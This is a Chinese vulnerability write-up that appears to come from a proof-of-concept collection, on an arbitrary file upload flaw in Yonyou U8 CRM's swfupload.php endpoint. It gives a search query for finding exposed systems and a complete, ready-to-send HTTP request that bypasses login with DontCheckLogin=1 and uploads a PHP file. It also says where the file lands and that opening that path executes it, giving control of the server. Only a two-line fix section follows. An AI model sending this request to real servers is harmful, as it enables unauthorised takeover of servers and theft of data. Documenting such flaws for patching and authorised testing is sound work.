




# 用友U8 CRM swfupload.php 任意文件上传漏洞

## 漏洞描述

用友U8 CRM客户关系管理系统 `/ajax/swfupload.php` 存在任意文件上传漏洞。攻击者通过 `DontCheckLogin=1` 绕过登录检查，利用文件上传接口上传恶意 PHP 文件，获取服务器权限。

## 网络测绘

```
body="用友U8CRM"
```

## 漏洞复现





```
POST /ajax/swfupload.php?DontCheckLogin=1&vname=file HTTP/1.1
Host: target
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------269520967239406871642430066855
Content-Length: 389

-----------------------------269520967239406871642430066855
Content-Disposition: form-data; name="file"; filename="shell.php "
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------269520967239406871642430066855
Content-Disposition: form-data; name="upload"

upload
-----------------------------269520967239406871642430066855--
```



上传成功后，文件路径为：

```
http://target/tmpfile/{path}.tmp.php
```



直接访问该路径即可执行上传的 PHP 文件，获取服务器控制权限。

## 漏洞修复

1. 关闭互联网暴露面或对接口设置访问权限；
2. 升级至安全版本，对上传文件类型做严格白名单校验。

> 仅限授权测试。原文中的 `%s.php` 与 `{{path}}` 为原文模板占位符，实际利用时替换为具体文件名。
